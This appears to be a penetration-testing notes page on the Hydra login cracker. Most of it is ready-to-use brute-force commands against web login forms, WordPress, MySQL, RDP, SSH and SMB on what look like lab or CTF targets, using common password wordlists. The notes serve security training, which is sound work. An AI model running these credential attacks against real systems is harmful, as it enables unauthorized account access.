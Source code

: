 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - PasswordsAndWordlists
  - Tooling
  - BruteForcing
---
```

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

# Commands

* `hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"`

## WordPress

* `hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I`

## [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|SQL]]

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## RDP

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```
## SSH

```
hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh
```

```
hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh
```

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```
# SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```